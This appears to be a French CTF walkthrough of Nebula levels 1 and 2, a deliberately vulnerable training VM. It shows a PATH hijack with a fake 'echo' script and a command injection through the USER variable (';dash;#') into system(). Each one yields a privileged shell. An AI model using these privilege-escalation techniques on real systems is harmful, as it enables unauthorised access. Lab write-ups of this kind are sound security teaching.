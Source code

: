On a un binaire qui semble simple et doit lancer via `system` la commande `/usr/bin/env echo and now what?`

Ca reste du bash et on peut interférer dessus en mettant un exécutable `echo` à nous en priorité dans le PATH.

```bash
level01@nebula:/home/flag01$ cd /tmp/
level01@nebula:/tmp$ id
uid=1002(level01) gid=1002(level01) groups=1002(level01)
level01@nebula:/tmp$ cat > echo
#!/bin/bash
dash
^C
level01@nebula:/tmp$ PATH=/tmp:$PATH /home/flag01/flag01
$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
$ getflag
You have successfully executed getflag on a target account
```

## Level 2

On a pour ce binaire un `getenv`, un `asprint` et un nom de variable `USER`...

```bash
level02@nebula:/home/flag02$ strings flag02 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
asprintf
getenv
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRhP
QVh4
UWVS
[^_]
USER
/bin/echo %s is cool
about to call system("%s")
;*2$"
```

On peut ainsi injecter des commandes dans la chaine passée à `system` :

```bash
level02@nebula:/home/flag02$ USER=";dash;#" ./flag02
about to call system("/bin/echo ;dash;# is cool")

$ id
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
$ getflag
You have successfully executed getflag on a target account
```
